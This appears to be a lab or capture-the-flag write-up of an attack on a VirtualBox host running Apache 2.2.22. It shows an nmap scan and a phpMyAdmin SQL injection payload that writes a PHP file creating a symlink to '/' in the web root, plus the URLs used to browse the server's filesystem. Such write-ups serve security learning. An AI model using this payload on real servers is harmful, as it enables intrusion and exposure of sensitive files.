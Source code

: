 # Apache 2.2.22 Local File Disclosure via Symbolic Link

Using `nmap`, we discovered that the target machine is running an outdated version of Apache:

```bash
┌──(jdamoise㉿kali)-[~]
└─$ nmap -sV 192.168.56.101
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 10:35 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:6D:D3:C2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Apache version 2.2.22 is known to have vulnerabilities, particularly in how it handles symbolic links under certain configurations. If the web server is configured to allow PHP file uploads and the `open_basedir` restriction is not in place, it becomes possible to create a symbolic link pointing to the root directory `/` — thereby exposing the entire filesystem via the web browser.

### Exploitation via phpMyAdmin SQL Injection

In this case, we leverage SQL injection through phpMyAdmin to create a malicious PHP file that creates the symbolic link. The SQL payload is as follows:

```sql
SELECT 1, '<?php symlink("/", "paths.php"); ?>' INTO OUTFILE '/var/www/forum/templates_c/run.php';
```

This command writes a PHP file (`run.php`) into the web-accessible `templates_c` directory. When this script is executed, it will create a symbolic link named `paths.php` pointing to the root directory `/`.

### Gaining Access to the Root Filesystem

Once the symlink is in place, we trigger the script by visiting the following URL in the browser:

```
http://192.168.56.101/forum/templates_c/run.php
```

After the symbolic link is created, we can browse the contents of the root filesystem simply by accessing:

```
http://192.168.56.101/forum/templates_c/paths.php
```

This effectively allows us to navigate the entire server file system from the web browser, exposing sensitive files such as `/etc/passwd`, `/var/www`, and more — potentially leading to privilege escalation or further exploitation.